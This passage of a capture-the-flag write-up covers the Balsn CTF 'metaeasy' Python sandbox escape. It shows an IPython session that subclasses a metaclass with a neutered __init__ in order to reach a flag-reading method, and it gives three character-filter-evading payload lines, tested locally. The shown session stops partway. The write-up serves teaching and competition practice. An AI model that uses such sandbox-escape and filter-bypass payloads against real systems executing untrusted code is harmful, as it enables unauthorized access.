 To overcome the `__init__` exception limitation, we need to replace the instantiation function with
something something that just returns `None`. This can be done dynamically with `type`. This allows
us to create a class from it and instantiate an object containing the `IWantGETFLAGPlz` function
which should give us the flag on the real target.

```python
In [36]: x = type('', (MasterMetaClass,), {'__init__': lambda *x: None})

In [37]: w=x('', (), {})

In [38]: w.IWantGETFLAGPlz(None)
Here you go, my master
---------------------------------------------------------------------------
FileNotFoundError                         Traceback (most recent call last)
<ipython-input-39-c555dbe5d306> in <module>
----> 1 w.IWantGETFLAGPlz(None)

~/ctf/balsnctf/metaeasy/writeup/dist/src/challenge.py in getFlag(self)
      3         def getFlag(self):
      4             print('Here you go, my master')
----> 5             with open('flag') as f:
      6                 print(f.read())
      7         class_attr[getFlag.__name__] = getFlag

FileNotFoundError: [Errno 2] No such file or directory: 'flag'

In [40]:
```

Note the three steps:

1. Creation of the new metaclass with the neutered `__init__`.
2. Creation of a new object through the new metaclass.
3. Calling of the get flag method to obtain the flag.

These steps need to be condensed into three lines of less than 46 characters each and not containing
spaces or `_`. Additionally, the neutered `__init__` method needs to point to a function that
accepts any number of arguments (or four) and returns None in all cases. The function `print` can be
used in this case since it fits the constraints.

Lines to do this were found to be as follows:

1. `s=self;e='\x5f'*2;s.N={e+'init'+e:print}`
2. `s=self;s.O=type('',(MasterMetaClass,),s.N)`
3. `self.O('',(),{}).IWantGETFLAGPlz(0)`

Local testing confirms this.

```console
$ python challenge.py
Welcome!!We have prepared a class named "Guest" for you
1. Add attribute
2. Add method
3. Finish
Option ? :2
Give me your method name :A
Give me your function:s=self;e='\x5f'*2;s.N={e+'init'+e:print}
1. Add attribute
2. Add method
3. Finish
Option ? :2
Give me your method name :B
Give me your function:s=self;s.O=type('',(MasterMetaClass,),s.N)
1. Add attribute
2. Add method
3. Finish
```